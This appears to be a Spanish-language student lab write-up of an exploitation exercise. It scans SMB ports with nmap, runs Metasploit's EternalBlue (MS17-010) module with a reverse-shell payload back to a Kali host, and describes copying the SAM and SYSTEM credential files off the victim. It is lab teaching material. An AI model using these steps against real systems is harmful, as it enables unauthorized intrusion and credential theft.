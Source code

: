 ```yaml
---
title: EXAMEN PARCIAL
date: 2024-11-03 00:00:00 -05:00
categories: [Vulnerabilidad SMB]
tags: [SMB, Kali, Metaploit, NMAP]  # TAG names should always be lowercase
---
```



#### **2.1. Escaneo de Red y Enumeración de Servicios**

Puerto 445: Este es el puerto principal utilizado para SMB desde SMBv2 en adelante, cuando se transmite sobre TCP/IP sin necesidad de NetBIOS.

Puerto 139: En SMBv1, este puerto se utilizaba en combinación con NetBIOS para transportar el tráfico de SMB. SMBv1 depende de NetBIOS sobre TCP/IP, lo cual hace que el puerto 139 esté involucrado en esta versión.

```bash
nmap -p 139,445 --script smb-protocols 10.0.2.4
```
1.	-p 139,445: Especifica los puertos 139 y 445, que son los principales puertos asociados con SMB. El puerto 139 se usa principalmente por SMBv1 con NetBIOS, y el puerto 445 es el que se usa para SMB directamente sobre TCP.
2.	--script smb-protocols: Este script de Nmap verifica qué versiones del protocolo SMB están habilitadas en la máquina objetivo, incluyendo SMBv1, SMBv2 y SMBv3.

En la imagen se visualiza los puerto abiertos y la version del SMB siendo la version 1.
![NMAP](/assets/imagen/nmap_parcial.png)


#### **2.2. Exploración de la Vulnerabilidad**

Para iniciar se ejecuta el comando

```bash
msfconsole
```

![msf](/assets/imagen/msfconsole.png)

Dentro del msf6, se ejecuta el comando

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

![ms17](/assets/imagen/ms17.png)

El módulo ms17_010_eternalblue en Metasploit se enfoca en explotar la vulnerabilidad MS17-010, que afecta a versiones antiguas de SMBv1 en sistemas Windows.
1. Explota MS17-010: EternalBlue se aprovecha de una vulnerabilidad en la validación de la memoria en el protocolo SMBv1, lo que permite al atacante ejecutar código arbitrario en la máquina víctima.
2. Permite ejecución remota sin autenticación: Esta es una vulnerabilidad crítica, ya que el atacante puede ejecutar comandos sin necesidad de autenticarse en el sistema, lo que facilita un acceso remoto inmediato.
3. Conexión reverse shell: Al usar el payload reverse_tcp, el exploit intenta establecer una conexión desde la máquina víctima hacia el sistema atacante, brindando un control completo sobre la máquina comprometida.

#### **2.3. Configuración del Exploit en el Framework Metasploit**
Dentro del exploit se ejecuta el comando de la IP de la victima, siendo la IP 10.0.2.4

```bash
set RHOST 10.0.2.4
```

Ejecutamos la IP del Kali, siendo la IP 10.0.2.9
```bash
set LHOST 10.0.2.9
```

Luego ejecutamos el PAYLOAD

```bash
set PAYLOAD windows/shell_reverse_tcp
```

![ms17](/assets/imagen/RHOST.png)


#### **2.4. Ejecución del Exploit**
Para ejecutar la explotacion se ejecuta, siendo exitoso

```bash
exploit
```

![exploit](/assets/imagen/exploit.png)

#### **2.5. Exfiltración de Archivos SAM y SYSTEM**

Se ubica el archivo vssown.bs

![exploit](/assets/imagen/pass1.png)


Se abre el archivo

![exploit](/assets/imagen/pass2.png)

Se inicia la ejecucion del archivo

![exploit](/assets/imagen/pass3.png)

Se realiza la copia antes del envio al KALI

![exploit](/assets/imagen/pass4.png)

![exploit](/assets/imagen/pass5.png)


Se copia el SYSTEM y el SAM con exito


![exploit](/assets/imagen/pass6.png)